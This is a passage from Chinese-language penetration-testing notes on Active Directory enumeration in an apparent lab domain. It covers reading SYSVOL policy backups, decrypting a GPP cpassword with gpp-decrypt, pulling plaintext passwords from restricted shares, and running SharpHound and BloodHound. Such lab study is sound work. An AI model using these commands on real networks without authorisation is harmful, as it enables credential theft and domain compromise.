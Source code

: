 访问域共享，powershell下

```armasm
ls \\dc1.corp.com\sysvol\corp.com\
ls \\dc1.corp.com\sysvol\corp.com\Policies\
cat \\dc1.corp.com\sysvol\corp.com\Policies\oldpolicy\old-policy-backup.xml
```

获得hash，在kali下可以破解

```armasm
gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
```

查看其他共享获得敏感文件

```armasm
ls \\FILES04\docshare
ls \\FILES04\docshare\docs\do-not-share
cat \\FILES04\docshare\docs\do-not-share\start-email.txt
```

邮件中有密码明文

## 21.4 自动枚举

### 21.4.1 SharpHound自动枚举

导入、帮助

```armasm
Import-Module .\Sharphound.ps1
Get-Help Invoke-BloodHound
```

获取域信息

```armasm
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\stephanie\Desktop\ -OutputPrefix "corp audit"
```

生成zip包文件，下载进行分析

### 21.4.2 使用BloodHound进行分析

kali下开启数据库

```armasm
sudo neo4j start

http://localhost:7474
neo4j/neo4j
```

登录后提示改密码

启动bloodhound

```armasm
bloodhound
```
